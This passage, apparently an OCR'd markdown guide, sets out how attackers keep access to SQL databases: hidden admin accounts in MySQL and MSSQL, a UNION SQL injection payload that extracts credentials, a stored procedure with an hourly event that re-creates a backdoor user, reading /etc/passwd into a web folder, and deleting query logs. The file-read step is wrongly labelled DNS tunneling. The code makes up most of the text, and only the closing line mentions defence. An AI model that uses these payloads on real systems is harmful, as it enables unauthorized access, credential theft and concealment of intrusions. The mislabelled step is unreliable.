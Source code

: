 #### **3. Privilege Escalation**  
Attackers create hidden accounts with permanent elevated privileges:  
- **MySQL**:  
  ```sql  
  CREATE USER 'maintainer'@'%' IDENTIFIED BY 'complexpassword';  
  GRANT ALL PRIVILEGES ON *.* TO 'maintainer'@'%' WITH GRANT OPTION;  
  ```  
- **MSSQL**:  
  ```sql  
  EXEC sp_addsrvrolemember 'maintainer', 'sysadmin';  
  ```  

---

### **Example Workflow: Maintaining Access**  
1. **Phase 1: Initial Compromise**  
   - Exploit a SQLi vulnerability in a login form to extract admin credentials:  
     ```sql  
     ' UNION SELECT username, password FROM users--  
     ```  

2. **Phase 2: Deploy Persistence**  
   - Create a stored procedure in MySQL to reinstate a backdoor user:  
     ```sql  
     CREATE PROCEDURE reinstate_backdoor()  
     BEGIN  
       IF NOT EXISTS (SELECT * FROM mysql.user WHERE user = 'persistence') THEN  
         CREATE USER 'persistence'@'%' IDENTIFIED BY 'secure';  
         GRANT ALL PRIVILEGES ON *.* TO 'persistence'@'%';  
       END IF;  
     END;  
     ```  
   - Schedule it to run hourly:  
     ```sql  
     CREATE EVENT hourly_check  
     ON SCHEDULE EVERY 1 HOUR  
     DO CALL reinstate_backdoor();  
     ```  

3. **Phase 3: Data Exfiltration & Evasion**  
   - Use DNS tunneling to exfiltrate data:  
     ```sql  
     SELECT LOAD_FILE('/etc/passwd') INTO DUMPFILE '/var/www/dnsquery';  
     ```  
   - Delete logs to erase traces:  
     ```sql  
     DELETE FROM mysql.general_log WHERE argument LIKE '%LOAD_FILE%';  
     ```  

---

### **Key Considerations**  
- **Defense Evasion**: Attackers often combine multiple techniques (e.g., log deletion + obfuscated payloads) to avoid detection.  
- **Long-Term Control**: Persistence mechanisms ensure access even if the initial vulnerability is patched.  
- **Forensic Challenges**: Obfuscated payloads and log manipulation make post-attack analysis difficult.  

By integrating these evasion and persistence strategies, attackers can maintain undetected access for extended periods, underscoring the need for proactive monitoring, logging integrity, and least-privilege database configurations.